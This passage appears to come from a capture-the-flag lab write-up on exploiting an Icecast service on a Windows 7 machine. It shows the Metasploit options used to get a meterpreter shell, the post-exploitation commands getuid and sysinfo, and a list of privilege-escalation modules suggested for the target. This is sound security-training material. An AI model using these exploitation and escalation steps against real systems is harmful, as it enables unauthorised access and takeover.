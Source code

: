 
> **RHOSTS** is the only required option that is blank

- <code>set RHOSTS</code> to target IP
- <code>set LHOSTS</code> to attack machine public IP/Tunnel IP for VPN
- <code>run</code> or <code>exploit</code> to start exploit
    - If exploit is succesful, it should open a meterpreter shell

## Escalate

### Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now?

Your shell should look like this: <code>meterpreter</code>

> The name of the shell is **meterpreter**

### What user was running that Icecast process?

> <code>getuid</code> returns us Dark-PC\\**Dark**

### What build of Windows is the system?

> <code>sysinfo</code> returns us <code>OS              : Windows 7 (6.1 Build **7601**, Service Pack 1)</code>

### What is the architecture of the process we're running?

> <code>sysinfo</code> also returned <code>Architecture    : **x64**</code>

### Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit?

Running post/multi/recon/local_exploit_suggester gives us these results:

```
#   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_comhijack                      Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
 4   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 5   exploit/windows/local/ms13_053_schlamperei                     Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ms13_081_track_popup_menu                Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 9   exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
 10  exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
 11  exploit/windows/local/tokenmagic                               Yes                      The target appears to be vulnerable.
 ```
